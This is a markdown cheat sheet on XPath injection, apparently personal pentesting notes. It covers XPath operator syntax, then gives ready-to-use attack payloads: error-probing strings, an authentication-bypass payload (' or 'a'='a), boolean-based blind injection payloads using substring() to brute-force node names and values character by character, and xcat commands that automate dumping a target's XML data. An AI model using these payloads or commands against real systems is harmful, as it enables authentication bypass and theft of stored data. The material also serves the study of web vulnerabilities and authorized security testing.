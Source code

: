 # XPath injection

## XPath

### Operator list

#### Select nodes

```
/             #select root
//            #select all nodes regardless of position
*[1]          #current node
name(*[1])    #name of current node
<node>/       #select all immediate children of <node>
<node>//      #select all children of <node> including sublevels
<node>/<sub>  #select a child of <node> named <sub>
<node>//<sub> #select a child of <node> named <sub> regardless of position
```

#### Attributes

```
@                     #select an attribute
/@<name>              #select all attributes named <name>
<node>[@<attr>]       #select a node of type <node> with attribute <attr>
<node>[@<attr>='val'] #select a node of type <node> that satisfy the condition
<node>/text()         #get the plain text included between two tags of type <node>
<node>/position()     #get current node index related to its brothers
```

#### Complex select

```
<node>[<sub>]                #select all nodes of type <node> with a subnode of type <child>
<node>[<sub>/text()='<val>'] #select all <node> whose subnode is of type <sub> and contains <val> as text
<node>[position()=<n>]       #select a node in the <n>th position
```

#### Logic operators

```
[<s1> and <s2>]    #AND
[<s1> or <s2>]     #OR
[not(<s1>)]        #NOT can include more statements inside i.e. not(a or not(b))
```

## Injection attacks

### Testing for injection

Insert a `'` or a `` ` `` to try and break the statement

```
' or `         #expect error for incomplete statement
or 'a' = 'a'   #expect always true result or the statement returns all elements
and 'a' = 'b'  #expect always false result
```

### Authentication bypass

```
' or 'a'='a
' or 'a'='a' or 'a'='a    #turns an A and B statement into (A or true) or (true and B). In this stamement only the first part is checked because it is always true
```

### Retrieve file structure

In order to build the file structure of the underlying XML record it is necessary to bruteforce the nodes names. In order to do so we perform a boolean based injection to iterate on each character of the node in order to find out whether it is contained in the tag or not. Once we discover the name of a node we repeat the operatione for each child

#### Find Root identifier

Find a valid query and concatenate the following payload to verify if the letter of the node name at the index \<idx> is equal to \<char>

```
<valid query>' or substring(name(*[1]),<idx>,1) = '<char>
<valid query> or substring(name(*[1]),<idx>,1) = <char>
```

Once the statement completes successfully increase the \<idx> value by one and repeat

#### Build data

To detect the name of the subnodes modify the path as follows

```
<valid query>' or substring(/<root>/<node1>/*,<idx>,1) = '<char>
<valid query> or substring(/<root>/<node1>/*,<idx>,1) = <char>
```

To access the value of the subnode in position \<pos> modify the path as follows

```
<valid query>' or substring(/<root>/<node1>[position()=<pos>],<idx>,1) = '<char>
<valid query> or substring(/<root>/<node1>[position()=<pos>],<idx>,1) = <char>
```

## XCat

A tool that automates the process of discovery of the XML file structure. Downloadable [here](https://github.com/orf/xcat)

The tool requires to specify a string that appears in page if the injection succeeds (`--true=<str>`) or fails (`--false=<str>`) in order to distinguish successful attacks

```
xcat --method=<GET|POST> <URL> <args list like arg1=val1 arg2=val2 ...> <target param> --true=<string>
```

Store full document locally

```
xcat --method=<GET|POST> <URL> <args list like arg1=val1 arg2=val2 ...> <target param> --true=<string> run retrieve  --output <path>
```
